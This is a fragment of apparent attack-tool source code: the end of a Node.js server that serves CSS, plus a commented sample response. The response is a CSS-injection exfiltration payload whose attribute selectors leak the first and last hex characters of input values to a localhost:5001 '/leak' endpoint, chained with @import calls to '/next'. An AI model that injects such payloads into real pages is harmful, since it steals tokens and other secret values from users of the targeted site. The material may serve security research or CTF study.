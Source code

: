 ```javascript
response.writeHead(200, { 'Content-Type': 'text/css'});
response.write(css);
response.end();
n++;
}


// Server listening
const server = http.createServer(requestHandler)

server.listen(port, (err) => {
if (err) {
return console.log('[-] Error: something bad happened', err);
}
console.log('[+] Server is listening on %d', port);
})

function log() {
if (DEBUG) console.log.apply(console, arguments);
}

/*
HTTP/1.1 200 OK
Content-Type: text/css
Date: Fri, 01 Apr 2022 14:35:39 GMT
Connection: close
Content-Length: 2149

@import url(http://localhost:5001/next?0.7834603960990516);
input[value$="0"]{--e0:url(http://localhost:5001/leak?post=0)}
input[value$="1"]{--e0:url(http://localhost:5001/leak?post=1)}
input[value$="2"]{--e0:url(http://localhost:5001/leak?post=2)}
input[value$="3"]{--e0:url(http://localhost:5001/leak?post=3)}
input[value$="4"]{--e0:url(http://localhost:5001/leak?post=4)}
input[value$="5"]{--e0:url(http://localhost:5001/leak?post=5)}
input[value$="6"]{--e0:url(http://localhost:5001/leak?post=6)}
input[value$="7"]{--e0:url(http://localhost:5001/leak?post=7)}
input[value$="8"]{--e0:url(http://localhost:5001/leak?post=8)}
input[value$="9"]{--e0:url(http://localhost:5001/leak?post=9)}
input[value$="a"]{--e0:url(http://localhost:5001/leak?post=a)}
input[value$="b"]{--e0:url(http://localhost:5001/leak?post=b)}
input[value$="c"]{--e0:url(http://localhost:5001/leak?post=c)}
input[value$="d"]{--e0:url(http://localhost:5001/leak?post=d)}
input[value$="e"]{--e0:url(http://localhost:5001/leak?post=e)}
input[value$="f"]{--e0:url(http://localhost:5001/leak?post=f)}
input{background:var(--e0)}
input[value^="0"]{--s0:url(http://localhost:5001/leak?pre=0)}
input[value^="1"]{--s0:url(http://localhost:5001/leak?pre=1)}
input[value^="2"]{--s0:url(http://localhost:5001/leak?pre=2)}
input[value^="3"]{--s0:url(http://localhost:5001/leak?pre=3)}
input[value^="4"]{--s0:url(http://localhost:5001/leak?pre=4)}
input[value^="5"]{--s0:url(http://localhost:5001/leak?pre=5)}
input[value^="6"]{--s0:url(http://localhost:5001/leak?pre=6)}
input[value^="7"]{--s0:url(http://localhost:5001/leak?pre=7)}
input[value^="8"]{--s0:url(http://localhost:5001/leak?pre=8)}
input[value^="9"]{--s0:url(http://localhost:5001/leak?pre=9)}
input[value^="a"]{--s0:url(http://localhost:5001/leak?pre=a)}
input[value^="b"]{--s0:url(http://localhost:5001/leak?pre=b)}
input[value^="c"]{--s0:url(http://localhost:5001/leak?pre=c)}
input[value^="d"]{--s0:url(http://localhost:5001/leak?pre=d)}
input[value^="e"]{--s0:url(http://localhost:5001/leak?pre=e)}
input[value^="f"]{--s0:url(http://localhost:5001/leak?pre=f)}
input{border-image:var(--s0)}
```